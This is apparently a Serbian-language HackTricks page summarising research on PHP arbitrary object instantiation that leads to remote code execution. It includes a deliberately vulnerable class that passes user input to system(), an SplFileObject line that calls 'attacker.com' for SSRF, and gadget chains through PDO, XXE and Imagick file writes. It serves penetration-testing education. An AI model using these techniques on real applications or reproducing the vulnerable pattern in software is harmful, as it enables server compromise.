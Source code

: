 # PHP - RCE zloupotreba kreiranja objekata: new $\_GET\["a"]\($\_GET\["b"])

{{#include ../../../banners/hacktricks-training.md}}

Ovo je u suštini sažetak [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Uvod

Kreiranje novih proizvoljnih objekata, kao što je `new $_GET["a"]($_GET["a"])`, može dovesti do daljinskog izvršavanja koda (RCE), kako je detaljno opisano u [**izveštaju**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). Ovaj dokument ističe različite strategije za postizanje RCE.

## RCE putem prilagođenih klasa ili automatskog učitavanja

Sintaksa `new $a($b)` se koristi za instanciranje objekta gde **`$a`** predstavlja ime klase, a **`$b`** je prvi argument prosleđen konstruktoru. Ove promenljive mogu biti dobijene iz korisničkih unosa kao što su GET/POST, gde mogu biti stringovi ili nizovi, ili iz JSON-a, gde se mogu pojaviti kao druge vrste.

Razmotrite sledeći kod:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
U ovom slučaju, postavljanje `$a` na `App` ili `App2` i `$b` na sistemsku komandu (npr., `uname -a`) rezultira izvršavanjem te komande.

**Autoloading funkcije** mogu biti iskorišćene ako takve klase nisu direktno dostupne. Ove funkcije automatski učitavaju klase iz fajlova kada su potrebne i definišu se koristeći `spl_autoload_register` ili `__autoload`:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
Ponašanje automatskog učitavanja varira sa verzijama PHP-a, nudeći različite RCE mogućnosti.

## RCE putem ugrađenih klasa

U nedostatku prilagođenih klasa ili automatskih učitavača, **ugrađene PHP klase** mogu biti dovoljne za RCE. Broj ovih klasa kreće se između 100 i 200, u zavisnosti od verzije PHP-a i ekstenzija. Mogu se nabrojati koristeći `get_declared_classes()`.

Konstruktori od interesa mogu se identifikovati putem refleksije API-ja, kao što je prikazano u sledećem primeru i linku [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**RCE putem specifičnih metoda uključuje:**

### **SSRF + Phar deserializacija**

Klasa `SplFileObject` omogućava SSRF putem svog konstruktora, omogućavajući veze sa bilo kojim URL-om:
```php
new SplFileObject('http://attacker.com/');
```
SSRF može dovesti do napada deserializacije u verzijama PHP-a pre 8.0 koristeći Phar protokol.

### **Iskorišćavanje PDO-a**

Konstruktor klase PDO omogućava povezivanje sa bazama podataka putem DSN stringova, potencijalno omogućavajući kreiranje fajlova ili druge interakcije:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

Verzije PHP-a do 5.3.22 i 5.4.12 bile su podložne XXE napadima putem `SoapClient` i `SimpleXMLElement` konstruktora, u zavisnosti od verzije libxml2.

## RCE putem Imagick ekstenzije

U analizi **zavisnosti projekta**, otkriveno je da se **Imagick** može iskoristiti za **izvršavanje komandi** instanciranjem novih objekata. Ovo predstavlja priliku za iskorišćavanje ranjivosti.

### VID parser

Identifikovana je sposobnost VID parsera da piše sadržaj na bilo koju određenu putanju u datotečnom sistemu. To može dovesti do postavljanja PHP shelle u direktorijum koji je dostupan putem veba, čime se postiže Remote Code Execution (RCE).

#### VID Parser + Upload fajlova

Napomenuto je da PHP privremeno skladišti otpremljene fajlove u `/tmp/phpXXXXXX`. VID parser u Imagick-u, koristeći **msl** protokol, može obraditi džoker znakove u putanjama fajlova, olakšavajući prenos privremenog fajla na odabrano mesto. Ova metoda nudi dodatni pristup za postizanje proizvoljnog pisanja fajlova unutar datotečnog sistema.

### PHP Crash + Brute Force

Metoda opisana u [**originalnom izveštaju**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) uključuje otpremanje fajlova koji izazivaju pad servera pre brisanja. Primenom brute-force tehnike na ime privremenog fajla, postaje moguće da Imagick izvrši proizvoljan PHP kod. Međutim, ova tehnika se pokazala efikasnom samo u zastareloj verziji ImageMagick-a.

## References

- [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{{#include ../../../banners/hacktricks-training.md}}
